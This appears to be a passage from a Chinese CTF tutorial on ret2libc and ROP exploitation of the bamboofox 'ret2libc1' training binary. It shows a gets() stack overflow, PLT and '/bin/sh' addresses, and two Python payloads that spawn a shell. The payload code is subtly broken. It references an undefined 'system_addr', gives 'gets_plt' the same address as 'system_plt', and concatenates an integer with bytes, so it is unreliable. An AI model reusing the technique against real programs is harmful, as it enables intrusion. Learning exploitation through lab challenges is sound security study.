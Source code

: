 通过段代码中的gadget，我们可以设置很多rop中需要用到的寄存器和64位函数调用传参数用的寄存器并return，以此来配合ret2libc传参数或者直接rop。

## 实践

### libc相关

例1.直接调用PLT

来自bamboofox 中 ret2libc1。查看保护：

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

在IDA中反汇编，发现简单的栈溢出：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

因此，我们直接修改main的返回地址。返回到哪里呢？我们可以查找发现plt表中有system函数的调用，那么我们可以直接return到那里去。另外，我们还查到程序中含有`'/bin/sh'`字符串。

```shell
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
0x08048720 : /bin/sh
```

这里需要注意的是，我们是通过ret回到system的，没有指定参数。而我们的预想是，执行的效果和call system的效果一样，并且希望函数的第一个参数是字符串地址。程序是32位的，函数参数通过栈压入，因此正常调用call system之后，栈上由高到低依次是：/bin/sh的地址、call压入的返回地址。我们也应该这样伪造，使得main函数ret后和预想中执行了`system("/bin/sh");`的栈布局一样，所以最终的payload为：

```python
padding=b'#'*0x70
ret_addr=b'#'*4
system_plt=0x08048460
sh_str=0x08048720
payload=padding+p32(system_addr)+ret_addr+p32(sh_str)
```

例2.和上面的程序相同，但是不包含/bin/sh，程序中可以找到gets的plt。

于是，我们需要调用两个函数，首先是gets，从键盘读入/bin/sh，然后再执行system。连续调用两个函数并设置参数，需要将栈上的内容清空，具体可以查看我们的构造方法。

```python
padding=b'#'*0x70
ret_addr=b'#'*4
system_plt=0x08048460
gets_plt = 0x08048460
bss=0x804a080 #在bss段上随便找一个地址，用来输入我们想要的字符串
pop_ebx_ret=0x0804843d #ropgadget找到的一个小片段，用来清空栈上残留

payload=padding+p32(gets_plt)+pop_ebx_ret+p32(bss)+p32(system_addr)+ret_addr+p32(bss)
```
